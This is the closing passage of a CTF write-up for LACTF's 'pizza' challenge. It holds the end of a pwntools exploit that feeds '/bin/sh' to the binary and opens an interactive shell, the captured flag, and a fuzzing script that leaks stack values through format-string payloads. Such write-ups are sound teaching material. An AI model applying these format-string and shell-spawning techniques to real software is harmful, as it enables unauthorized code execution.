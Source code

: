 ```python
p.sendlineafter(b'topping: ', b'/bin/sh')
p.sendlineafter(b'> ', b'0')
p.interactive()

# lactf{golf_balls_taste_great_2tscx63xm3ndvycw}
```
And, as promised, the `fuzz.py` script I made. 

```python
from pwn import *
elf = context.binary = ELF("pizza_patched")
for i in range(100):
    try:
        p = elf.process()
        p.sendlineafter(b'> ', b'12')
        p.sendlineafter(b'topping: ', 'aaaaaaaa%{}$p'.format(i))

        p.sendlineafter(b'> ', b'12')
        p.sendlineafter(b'topping: ', b'/bin/sh')

        p.sendlineafter(b'> ', b'12')
        p.sendlineafter(b'topping: ', b'0')
        p.recvline()
        print(i)
        print(p.recvline())
        print(p.recvline())
        print(p.recvline())
        p.sendline(b'y')
        p.close()
    except EOFError:
        pass
```

One final kudos to the folks that put on LACTF and one more massive shout out to the best CTF team anyone could ask for. 